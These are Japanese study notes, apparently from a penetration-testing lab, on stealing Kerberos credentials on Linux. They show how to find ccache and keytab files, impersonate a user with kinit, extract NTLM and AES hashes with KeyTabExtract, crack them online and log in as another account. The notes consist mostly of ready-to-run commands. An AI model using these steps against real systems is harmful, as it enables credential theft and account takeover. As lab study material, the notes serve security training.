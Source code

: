 #### ccacheファイルを見つける
**環境変数**
- ユーザーがドメインを認証すると、チケット情報を保存するccacheファイルが作成される
- 認証が有効な間、ユーザーのセッションが続く間、Kerberosクレデンシャルを保存する
- このccacheファイルのパスは`KRB5CCNAME`という環境変数に配置される
- Kerberos認証をサポートするツールが、Kerberos認証を行うために使用されるのが本来の目的
```shell-session
env | grep -i krb5
```

**デフォルトの保存場所**
- ccacheファイルはデフォルトで`/tmp`ファイルに保存されるため、`/tmp`内を探す
```shell-session
ls -la /tmp
```

#### KeyTabファイルの悪用
**なりすまし先のユーザーを探す**
- KeyTabファイルを悪用するには、どのユーザーのために作成されたかを知る必要がある
- klist
	- LinuxでKerberosと対話するためのアプリケーション
	- .keytabファイルから情報を読み取る
.keytabファイル情報の一覧表示
```shell-session
klist 
```

出力された情報の中のPrincipalの欄でどのユーザーになりすませるかがわかる
- ユーザー名を指定するときは、Principalに書かれている「ユーザー名@ドメイン名」をセットで使う必要がある

**`kinit`を使用してユーザーになりすます**
```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

smbに接続してなりすましできているかどうかを確認する
```shell-session
smbclient //dc01/carlos -k -c ls
```

## Linuxで他アカウントにログインする
.keytabファイルから認証情報を抽出することで、他アカウントにログインする

### KeyTabExtractでKeyTabハッシュを抽出する
- NTLMハッシュを使用して、アカウントのパスワードの取得・PtH攻撃もできる
- AES8種で、Rubeusでチケットの偽造もできる
```shell-session
wget https://raw.githubusercontent.com/sosdave/KeyTabExtract/refs/heads/master/keytabextract.py
python3 keytabextract.py /opt/specialfiles/carlos.keytab 
```

[https://crackstation.net/](https://crackstation.net/)などのレインボーテーブル攻撃などでNTLMハッシュをクラックして、他アカウントにログインできる
```shell-session
su - carlos@inlanefreight.htb
```
